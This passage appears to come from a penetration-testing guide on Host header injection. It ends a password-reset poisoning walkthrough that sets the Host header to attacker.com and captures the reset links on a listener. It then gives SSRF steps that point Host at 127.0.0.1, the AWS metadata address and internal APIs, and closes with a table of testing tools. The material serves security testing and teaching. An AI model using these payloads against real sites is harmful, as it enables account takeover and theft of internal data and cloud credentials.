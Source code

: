 3. **Modify it to your malicious domain**

   ```
   Host: attacker.com
   ```

4. **Forward the request**
   If the app uses `Host:` to build the reset URL, the email will contain a link to `attacker.com/...`

5. **Capture the request on attacker.com**
   Host a simple server (e.g., `python3 -m http.server`) and log incoming URLs.

---

## 🌐 3. **SSRF via Host Header**

### 🎯 Objective:

Use Host header to trick the server into making internal HTTP requests (SSRF).

### ✅ Steps:

1. **Find a feature that fetches data from a URL or reflects Host**
   e.g., redirects, URL previews, tracking pixels.

2. **Send a crafted Host header pointing to an internal resource**

   ```http
   GET / HTTP/1.1  
   Host: 127.0.0.1
   ```

3. **Observe response for internal content**
   You might see server error, timeout, or internal app data in the response.

4. **Try internal services like:**

   * `localhost`
   * `169.254.169.254` (AWS metadata)
   * `internal-api.local`

5. **Log sensitive data**
   If SSRF is successful, log internal endpoints/data accessed via your Host payload.

---

### 🛠️ **Proxy-Aware Tools for Testing**

To simulate or bypass corporate proxies, use these tools:

| Tool | Description |
|------|-------------|
| [Burp Suite](https://portswigger.net/burp) | Use Repeater and Intruder to test header combinations. |
| [Headi](https://www.blackhatethicalhacking.com/tools/headi/) | Automates header injection with proxy-aware payloads. |
| [HostHeaderScanner](https://github.com/inpentest/HostHeaderScanner) | Detects Host Header Injection and SSRF via proxy headers. |
| [Param Miner (Burp Extension)](https://portswigger.net/bappstore/9f3c3b7b9e4f4e3e9c3d3e3b9f3c3b7b) | Finds hidden headers and ambiguous parsing behavior. |

---